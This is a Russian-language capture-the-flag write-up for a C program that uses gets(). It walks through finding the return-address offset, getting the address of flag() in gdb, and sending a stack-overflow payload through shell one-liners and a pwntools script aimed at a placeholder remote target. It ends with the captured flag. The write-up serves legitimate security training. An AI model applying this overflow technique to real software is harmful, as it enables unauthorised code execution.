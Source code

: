 # tired of nulls writeup

Нам дан код на C, использующий небезопасную функцию [gets()](https://www.c-cpp.ru/content/gets) и самописная функция flag(), которая выводит переменную окружения. 

Внимательно просмотрев код, можно заметить, что функция flag() не вызывается в нашем main, там вообще ничего не вызывается.

### Что же делать? 
Обратить внимание, что буфер заполняется через gets(). Нужно понять, как ее проэксплуатировать (подсказка: размер введенной строки пользователя может быть БОЛЬШЕ, чем размер нашего буфера).

Теперь узнаем адрес нашего [rip регистра](https://linux-doc.ru/programming/assembler/architecture/rip.php), чтобы понять, как это сделать, будем использовать скомпилированный файл 3asypwn и python. Суть в том, чтобы получить [SEGFAULT](https://ru.wikipedia.org/wiki/%D0%9E%D1%88%D0%B8%D0%B1%D0%BA%D0%B0_%D1%81%D0%B5%D0%B3%D0%BC%D0%B5%D0%BD%D1%82%D0%B0%D1%86%D0%B8%D0%B8), благодаря этому узнаем смещение до нашего rip регистра.

Делается это с помощью команды `python -c "print 'A'* OFFSET" | ./3asypwn`, изначально примем `OFFSET=64`, потому что буфер именно такого размера, и будем увеличивать его на 4 до тех пор, пока не получим нужную ошибку. Произойдет это при 72 сдвиге, значит следующие 16 байтов - rip. Их нужно изменить, но на какое значение? 

Настало время [gdb](https://ru.wikipedia.org/wiki/GNU_Debugger). С его помощью легко можно узнать адрес функции flag(), запускаем `gdb -q ./3asypwn` и прописываем `disas flag` - в первой строке получаем то, что искали `0x0000000000400607`.

### Вызовем функцию! 
Это можно сделать двумя способами:

1. bash: `python -c "print 'A'*72 + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1]" | ./3asypwn`
2. gdb: ```r -A < <(python -c "print 'A'*72 + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1]")```

Второй способ позволяет передать в gdb null-bytes (\x00), в отличие от способа передачи $(), который их игнорирует.

Функция отработала, отлично, теперь переходим к боевому стенду! Для удобства работы напишем python скрипт.

```python
from pwn import *

conn = remote('TARGET_IP', TARGET_PORT)

OFFSET = 72
payload = OFFSET * 'A' + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1] 
conn.sendline(payload)
print(conn.recv())
```

 Отправляем нашу полезную нагрузку и получаем флаг: **kxctf{u_@r3_str0ng_0n3_but_th4ts_n0t_4ll_tg_OxSBI}**

